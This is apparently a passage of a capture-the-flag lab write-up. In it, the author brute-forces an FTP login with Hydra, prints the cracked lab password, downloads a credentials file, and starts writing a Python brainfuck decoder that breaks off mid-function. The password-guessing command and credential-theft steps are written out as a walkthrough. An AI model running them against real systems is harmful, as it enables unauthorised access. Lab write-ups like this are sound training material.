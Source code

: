 
Save the password list in passwords.txt

hydra -l ftpuser -P passwords.txt ftp://10.10.117.14

returned:

[21][ftp] host: 10.10.117.14   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-13 20:49:06



user the credentials to login to ftp:

ftp 10.10.117.14

login

ls -la

we see Eli's_Creds.txt

`get Eli's_Creds.txt`

the creds will save to desktop.

open the txt file to find:

+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <


I asked AI what this was as I was unfamiliar. It text is a brainfuck-encoded string.

I had ChatGPT write me a python interpeter to decode the brainfuck locally:

```python
def brainfuck(code):
    tape = [0] * 30000
    ptr = 0
    i = 0
    output = ''
    loop_stack = []

    while i < len(code):
        cmd = code[i]
        if cmd == '>':
            ptr += 1
        elif cmd == '<':
            ptr -= 1
        elif cmd == '+':
            tape[ptr] = (tape[ptr] + 1) % 256
        elif cmd == '-':
            tape[ptr] = (tape[ptr] - 1) % 256
        elif cmd == '.':
            output += chr(tape[ptr])
        elif cmd == ',':
            pass  # not needed
        elif cmd == '[':
            if tape[ptr] == 0:
                open_loops = 1
                while open_loops:
```